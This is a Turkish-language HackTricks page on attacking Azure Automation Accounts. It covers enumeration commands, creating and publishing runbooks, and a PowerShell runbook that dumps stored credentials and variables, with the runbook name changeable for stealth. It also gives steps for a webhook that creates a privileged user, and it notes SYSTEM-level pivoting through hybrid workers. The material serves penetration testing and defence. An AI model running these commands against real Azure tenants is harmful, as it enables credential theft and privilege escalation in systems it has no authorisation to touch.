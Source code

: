 # Az - Otomasyon Hesabı

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek** paylaşın.

</details>

## Temel Bilgiler

[Dokümantasyondan:](https://learn.microsoft.com/en-us/azure/automation/overview) Azure Automation, Azure ve Azure olmayan ortamlarınızda tutarlı yönetimi destekleyen bir bulut tabanlı otomasyon, işletim sistemi güncelleştirmeleri ve yapılandırma hizmeti sunar. Süreç otomasyonu, yapılandırma yönetimi, güncelleme yönetimi, paylaşılan yetenekler ve heterojen özellikler içerir.

Bunlar, Azure'da "**zamanlanmış görevler**" gibi olan ve Azure ortamını **yönetmek**, kontrol etmek ve yapılandırmak için şeyleri (eylemler veya hatta komut dosyaları) yürütmenizi sağlayan şeylerdir.

### Çalışma Hesabı

**Çalışma Hesabı** kullanıldığında, kendine imzalı bir sertifika ile Azure AD **uygulaması** oluşturur, bir **hizmet prensibi** oluşturur ve **mevcut abonelikte** hesap için **Katkıda Bulunan** rolünü atar (birçok ayrıcalık).\
Microsoft, Otomasyon Hesabı için bir **Yönetilen Kimlik** kullanmanızı önerir.

{% hint style="warning" %}
Bu, **30 Eylül 2023'te kaldırılacak ve Yönetilen Kimliklerle değiştirilecek**.
{% endhint %}

## Çalışma Kitapları ve İşler

**Çalışma Kitapları**, keyfi PowerShell kodunu **yürütmenizi** sağlar. Bu, bir saldırganın **bağlı prensibin** izinlerini çalması için **kötüye kullanılabilir**.\
**Çalışma Kitapları**nın **kodunda**, kimlik bilgileri gibi **duyarlı bilgiler** de bulunabilir.

İşleri **okuyabiliyorsanız**, çalışmanın **çıktısını** içerdiği için (potansiyel olarak **duyarlı bilgiler**) okuyun.

`Otomasyon Hesapları`'na gidin --> `<Seçilen Otomasyon Hesabı>` --> `Çalışma Kitapları/İşler/Hibrit işçi grupları/İzleyici görevleri/parolalar/değişkenler/sertifikalar/bağlantılar`

### Hibrit İşçi

Bir Çalışma Kitabı, bir **Azure içindeki bir konteynerde** veya bir **Hibrit İşçi**de (Azure dışı makine) çalıştırılabilir.\
**Günlük Analizi Ajanı**, VM'ye hibrit işçi olarak kaydetmek için dağıtılır.\
Hibrit işçi işleri Windows'ta **SYSTEM** üzerinde ve Linux'ta **nxautomation** hesabında çalışır.\
Her Hibrit İşçi, bir **Hibrit İşçi Grubu**'na kaydedilir.

Bu nedenle, bir **Windows Hibrit İşçi**'de bir **Çalışma Kitabı** çalıştırmayı seçebilirseniz, harici bir makinede **Sistem** olarak keyfi komutlar yürütürsünüz (güzel bir pivot tekniği).

## Durum Yapılandırması (SC) Komprometi

[Dokümantasyondan:](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview) Azure Automation Durum Yapılandırması, herhangi bir bulutta veya yerindeki düğümler için PowerShell Desired State Configuration (DSC) [yapılandırmalarını](https://learn.microsoft.com/en-us/powershell/dsc/configurations/configurations) yazmanıza, yönetmenize ve derlemenize olanak tanıyan bir Azure yapılandırma yönetimi hizmetidir. Hizmet ayrıca [DSC Kaynakları](https://learn.microsoft.com/en-us/powershell/dsc/resources/resources)'nı içe aktarır ve hedef düğümlere yapılandırmalar atar, hepsi bulutta yapılır. Azure Portal'da Azure Automation Durum Yapılandırmasına **Yapılandırma Yönetimi** altında **Durum yapılandırması (DSC)**'yi seçerek erişebilirsiniz.

Bu yapılandırmalarda **duyarlı bilgiler** bulunabilir.

### Uzaktan Kod Yürütme (RCE)

Yönetilen makinelerde keyfi komut dosyalarını çalıştırmak için SC kötüye kullanılabilir.

{% content-ref url="az-state-configuration-rce.md" %}
[az-state-configuration-rce.md](az-state-configuration-rce.md)
{% endcontent-ref %}

## Numaralandırma

{% code overflow="wrap" %}
```powershell
# Check user right for automation
az extension add --upgrade -n automation
az automation account list # if it doesn't return anything the user is not a part of an Automation group

# Gets Azure Automation accounts in a resource group
Get-AzAutomationAccount

# List & get DSC configs
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration
Get-AzAutomationAccount | Get-AzAutomationDscConfiguration | where {$_.name -match '<name>'} | Export-AzAutomationDscConfiguration -OutputFolder . -Debug
## Automation Accounts named SecurityBaselineConfigurationWS... are there by default (not interesting)

# List & get Run books code
Get-AzAutomationAccount | Get-AzAutomationRunbook
Get-AzAutomationAccount | Get-AzAutomationRunbook | Export-AzAutomationRunbook -OutputFolder /tmp

# List credentials & variables & others
Get-AzAutomationAccount | Get-AzAutomationCredential
Get-AzAutomationAccount | Get-AzAutomationVariable
Get-AzAutomationAccount | Get-AzAutomationConnection
Get-AzAutomationAccount | Get-AzAutomationCertificate
Get-AzAutomationAccount | Get-AzAutomationSchedule
Get-AzAutomationAccount | Get-AzAutomationModule
Get-AzAutomationAccount | Get-AzAutomationPython3Package
## Exfiltrate credentials & variables and the other info loading them in a Runbook and printing them

# List hybrid workers
Get-AzAutomationHybridWorkerGroup -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME>
```
### Bir Runbook Oluşturun

{% code overflow="wrap" %}
```powershell
# Get the role of a user on the Automation account
# Contributor or higher = Can create and execute Runbooks
Get-AzRoleAssignment -Scope /subscriptions/<ID>/resourceGroups/<RG-NAME>/providers/Microsoft.Automation/automationAccounts/<AUTOMATION-ACCOUNT>

# Create a Powershell Runbook
Import-AzAutomationRunbook -Name <RUNBOOK-NAME> -Path C:\Tools\username.ps1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Type PowerShell -Force -Verbose

# Publish the Runbook
Publish-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose

# Start the Runbook
Start-AzAutomationRunbook -RunbookName <RUNBOOK-NAME> -RunOn Workergroup1 -AutomationAccountName <AUTOMATION-ACCOUNT> -ResourceGroupName <RG-NAME> -Verbose
```
### Bir Çalışma Kitabı kullanarak bir Otomasyon Hesabında Tanımlanan Kimlik Bilgilerini ve Değişkenleri Dışarı Aktarın

{% code overflow="wrap" %}
```powershell
# Change the crdentials & variables names and add as many as you need
@'
$creds = Get-AutomationPSCredential -Name <credentials_name>
$runbook_variable = Get-AutomationVariable -name <variable_name>
$runbook_variable
$creds.GetNetworkCredential().username
$creds.GetNetworkCredential().password
'@ | out-file -encoding ascii 'runbook_get_creds.ps1'

$ResourceGroupName = '<resource_group_name>'
$AutomationAccountName = '<auto_acc_name>'
$RunBookName = 'Exif-Credentials' #Change this for stealthness

# Creare Run book, publish, start, and get output
New-AzAutomationRunBook -name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Type PowerShell
Import-AzAutomationRunBook -Path 'runbook_get_creds.ps1' -Name $RunBookName -Type PowerShell -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName -Force
Publish-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
$start = Start-AzAutomationRunBook -Name $RunBookName -AutomationAccountName $AutomationAccountName -ResourceGroupName $ResourceGroupName
start-sleep 20
($start | Get-AzAutomationJob | Get-AzAutomationJobOutput).Summarynt
```
{% endcode %}

{% hint style="info" %}
Aynı şeyi mevcut bir Çalıştırma Kitabını değiştirerek ve web konsolundan da yapabilirsiniz.
{% endhint %}

### Otomatik Olarak Yüksek Yetkili Kullanıcı Oluşturma İçin Adımlar

#### 1. Bir Otomasyon Hesabı Başlatın
- **Eylem Gereklidir:** Yeni bir Otomasyon Hesabı oluşturun.
- **Belirli Ayar:** "Azure Run As hesabı oluştur" etkinleştirildiğinden emin olun.

#### 2. Çalıştırma Kitabını İçe Aktarın ve Ayarlayın
- **Kaynak:** Örnek çalıştırma kitabını [MicroBurst GitHub Deposundan](https://github.com/NetSPI/MicroBurst) indirin.
- **Gereken Eylemler:**
- Çalıştırma kitabını Otomasyon Hesabına içe aktarın.
- Çalıştırma kitabını yürütülebilir hale getirmek için yayınlayın.
- Dış tetikleyicileri etkinleştirmek için çalıştırma kitabına bir webhook ekleyin.

#### 3. AzureAD Modülünü Yapılandırın
- **Eylem Gereklidir:** AzureAD modülünü Otomasyon Hesabına ekleyin.
- **Ek Adım:** Tüm Azure Otomasyon Modüllerinin en son sürümlerine güncellendiğinden emin olun.

#### 4. İzin Ataması
- **Atanacak Roller:**
- Kullanıcı Yöneticisi
- Abonelik Sahibi
- **Hedef:** Bu rolleri gerekli yetkiler için Otomasyon Hesabına atayın.

#### 5. Potansiyel Erişim Kaybı Farkındalığı
- **Not:** Bu tür bir otomasyon yapılandırması, abonelik üzerinde kontrol kaybına neden olabileceğini unutmayın.

#### 6. Kullanıcı Oluşturmayı Tetikleyin
- Bir POST isteği göndererek webhook'u tetikleyerek yeni bir kullanıcı oluşturun.
- Sağlanan PowerShell komut dosyasını kullanarak, `$uri`yi gerçek webhook URL'nizle ve `$AccountInfo`yu istenen kullanıcı adı ve şifreyle değiştirerek kullanın.
```powershell
$uri = "<YOUR_WEBHOOK_URL>"
$AccountInfo  = @(@{RequestBody=@{Username="<DESIRED_USERNAME>";Password="<DESIRED_PASSWORD>"}})
$body = ConvertTo-Json -InputObject $AccountInfo
$response = Invoke-WebRequest -Method Post -Uri $uri -Body $body
```
## Referanslar

* [https://learn.microsoft.com/en-us/azure/automation/overview](https://learn.microsoft.com/en-us/azure/automation/overview)
* [https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview](https://learn.microsoft.com/en-us/azure/automation/automation-dsc-overview)
* [https://github.com/rootsecdev/Azure-Red-Team#runbook-automation](https://github.com/rootsecdev/Azure-Red-Team#runbook-automation)

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana dönüşmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamınızı görmek veya HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'ı takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek paylaşın.

</details>
